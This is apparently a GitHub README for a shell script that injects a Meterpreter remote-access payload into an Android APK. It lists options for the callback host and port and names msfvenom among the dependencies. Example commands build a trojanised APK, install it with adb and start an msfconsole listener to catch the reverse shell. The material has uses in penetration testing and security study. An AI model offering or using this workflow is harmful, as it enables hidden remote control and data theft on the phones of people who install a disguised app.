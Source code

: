 # DESCRIPTION
Automation of MeterPreter implementation in the APK app
- - -
## HELP
usage: script [options] target

-h help

-p LPORT (default 4444)

-H LHOST (default 192.168.240.1)

-f Option apktool decode..: Force delete destination directory.

-g Generate rc file for msfconsole

\==================================================

Dependencies: pyp, fdfind, msfvenom, ripgrep, uber

## Dependencies:
- pyp
- fdfind
- msfvenom
- ripgrep
- uber

## EXAMPLE
./meterpreter_in_apk.sh -H 192.168.244.44 -p 8844 -g path/to/app.apk

adb install  app/dist/app-aligned-debugSigned.apk

msfconsole -q -r msf_192.168.244.44_8844.rc

## OUTPUT
![Release header](https://github.com/wanbalan/meterpreter_in_apk/blob/main/screen_001.png?raw=true)
